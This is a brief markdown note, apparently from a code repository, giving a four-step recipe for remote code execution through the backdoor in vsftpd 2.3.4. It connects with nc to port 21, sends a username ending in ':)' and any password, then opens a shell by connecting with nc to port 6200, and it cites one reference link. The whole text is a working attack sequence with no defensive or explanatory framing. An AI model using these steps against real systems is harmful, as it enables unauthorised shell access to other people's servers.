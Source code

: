 ## RCE in vsftpd 2.3.4

1. `nc {ip} 21`
2. `USER: random :)`
3. `PASS: random`
4. get shell by `nc {ip} 6200`

Ref: https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/ 